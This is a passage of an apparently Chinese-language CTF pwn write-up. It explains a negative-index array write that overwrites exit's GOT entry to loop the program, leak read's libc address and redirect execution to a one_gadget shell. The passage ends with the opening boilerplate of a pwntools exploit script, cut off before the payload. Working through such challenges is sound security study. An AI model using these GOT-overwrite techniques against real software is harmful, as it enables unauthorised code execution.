 [![](assets/1701678450-218513fe9c11ae573bd4881298df3ba9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129210904-78ba7e12-8eb8-1.png)  
可以看到.got.plt表离bss段的距离比较近，所以考虑用数组越界写来改变.got.plt表

seat的地址为0x4040A0  
exit的.got.plt表的地址为0x404040  
exit在seat的低地址处，正好用负数来覆写  
两者之差为96，96/16=6，所以用-6可以改变exit  
把exit改成\_start后可以实现程序的无限循环  
同时我们可以知道exit与read地址相差16  
read函数的后三位为fc0，后三位是不会变的  
所以写入\\xc0不改变read的地址  
然后就可以接收到read的真实地址  
one\_gadget libc-2.31.so  
收到后用one\_gadget搜索一下可用的shell  
然后写入-6把退出变成执行og就行了

exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
```
